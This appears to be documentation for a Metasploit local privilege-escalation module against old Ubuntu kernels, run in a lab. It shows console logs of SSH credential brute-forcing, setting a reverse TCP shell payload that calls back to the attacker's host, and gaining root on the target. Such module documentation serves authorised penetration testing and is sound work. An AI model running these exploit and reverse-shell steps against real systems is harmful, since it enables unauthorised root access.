 ## Creating A Testing Environment

This module works against Ubuntu 13.04, and 13.10.  As of writing this, those releases are at EOL (end of life).  If you wish to install `gcc` or other command, you'll need to fix your `/etc/sources.list` to
point to the correct repos.

`sudo sed -i -re 's/([a-z]{2}\.)?archive.ubuntu.com|security.ubuntu.com/old-releases.ubuntu.com/g' /etc/apt/sources.list` [source](http://askubuntu.com/questions/91815/how-to-install-software-or-upgrade-from-an-old-unsupported-release)

This module has been tested against:

  1. Ubuntu 13.04 (default kernel) 3.8.0-19-generic

This module should also work against:

  1. Ubuntu 13.10 (default kernel) 3.11.0-12-generic
  2. Ubuntu 13.10 3.11.0-15-generic

More kernels could be added to this, just need the proper offsets.

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  3. Do: `use exploit/linux/local/recvmmsg_priv_esc`
  4. Do: `set session #`
  5. Do: `set verbose true`
  6. Do: `exploit`

## Options

### COMPILE

  If we should attempt to compile live on the system, or drop a binary.  Default is `auto` which will compile if `gcc` is installed.

### WritableDir

  A folder we can write files to.  Defaults to /tmp

## Scenarios

### Ubuntu 13.04 (with default kernel: 3.8.0-19-generic)

#### Initial Access

    [*] Processing recvmmsg.rc for ERB directives.
    resource (recvmmsg.rc)> use auxiliary/scanner/ssh/ssh_login
    resource (recvmmsg.rc)> set rhosts 192.168.2.20
    rhosts => 192.168.2.20
    resource (recvmmsg.rc)> set username ubuntu
    username => ubuntu
    resource (recvmmsg.rc)> set password ubuntu
    password => ubuntu
    resource (recvmmsg.rc)> exploit
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),111(lpadmin),112(sambashare) Linux ubuntu1304 3.8.0-19-generic #29-Ubuntu SMP Wed Apr 17 18:16:28 UTC 2013 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (192.168.2.117:39613 -> 192.168.2.20:22) at 2016-10-08 23:19:48 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

#### Escalate

    resource (recvmmsg.rc)> use exploit/linux/local/recvmmsg_priv_esc
    resource (recvmmsg.rc)> set verbose true
    verbose => true
    resource (recvmmsg.rc)> set payload linux/x86/shell/reverse_tcp
    payload => linux/x86/shell/reverse_tcp
    resource (recvmmsg.rc)> set session 1
    session => 1
    resource (recvmmsg.rc)> set lhost 192.168.2.117
    lhost => 192.168.2.117
    resource (recvmmsg.rc)> exploit
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [+] Kernel 3.8.0.pre.19.pre.generic is exploitable
    [+] gcc is installed
    [*] Live compiling exploit on system
    [+] Kernel 3.8.0.pre.19.pre.generic is exploitable
    [*] Writing to /tmp/4bUIkbrG.c (5950 bytes)
    [*] Max line length is 65537
    [*] Writing 5950 bytes in 1 chunks of 20667 bytes (octal-encoded), using printf
    [*] Compiling /tmp/4bUIkbrG.c
    [*] Writing to /tmp/a0RwAacU (185 bytes)
    [*] Max line length is 65537
    [*] Writing 185 bytes in 1 chunks of 560 bytes (octal-encoded), using printf
    [*] Exploiting... May take 17min.  Start time: 2016-10-08 23:20:00 -0400
    [*] Sending stage (36 bytes) to 192.168.2.20
    [*] Command shell session 2 opened (192.168.2.117:4444 -> 192.168.2.20:38465) at 2016-10-08 23:32:49 -0400
    
    id
    uid=0(root) gid=0(root) groups=0(root)
    uname -a
    Linux ubuntu1304 3.8.0-19-generic #29-Ubuntu SMP Wed Apr 17 18:16:28 UTC 2013 x86_64 x86_64 x86_64 GNU/Linux

### Using pre-compiled binaries on the same system

    resource (recvmmsg.rc)> use exploit/linux/local/recvmmsg_priv_esc
    resource (recvmmsg.rc)> set verbose true
    verbose => true
    resource (recvmmsg.rc)> set payload linux/x86/shell/reverse_tcp
    payload => linux/x86/shell/reverse_tcp
    resource (recvmmsg.rc)> set session 1
    session => 1
    resource (recvmmsg.rc)> set lhost 192.168.2.117
    lhost => 192.168.2.117
    resource (recvmmsg.rc)> exploit
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [+] Kernel 3.8.0.pre.19.pre.generic is exploitable
    [-] gcc is not installed.  Compiling will fail.
    [*] Dropping pre-compiled exploit on system
    [+] Kernel 3.8.0.pre.19.pre.generic is exploitable
    [*] Writing to /tmp/Yc0xB9oC (14571 bytes)
    [*] Max line length is 65537
    [*] Writing 14571 bytes in 1 chunks of 38575 bytes (octal-encoded), using printf
    [*] Writing to /tmp/a0RwAacU (185 bytes)
    [*] Max line length is 65537
    [*] Writing 185 bytes in 1 chunks of 560 bytes (octal-encoded), using printf
    [*] Exploiting... May take 17min.  Start time: 2016-10-08 23:42:01 -0400
    [*] Sending stage (36 bytes) to 192.168.2.20
    [*] Command shell session 2 opened (192.168.2.117:4444 -> 192.168.2.20:38465) at 2016-10-08 23:54:50 -0400
    [+] Deleted /tmp/Yc0xB9oC
    [+] Deleted /tmp/a0RwAacU
    
    2689016405
    carERUCEUgdCZfvTyiWuBklsNMqcNhey
    true
    dPZDicgefmDeBvIpRYKaToiSQmHWQxBe
    yGWMZKlCTQskKCZERIXNchDARUIzzBJn
    FjFxyOSVHntGpawbQfSzIdRPsbeyOgSq
    true
    HFPuJArQoYvuxhkoWbAwvdDbNVUjSdUL
    vMvWNASOZcfTmStOGnozdJzfTAUWJYzU
    VQUKZqzBlQaQJmbtyQSSNudDtINToRhu
    whoami
    root
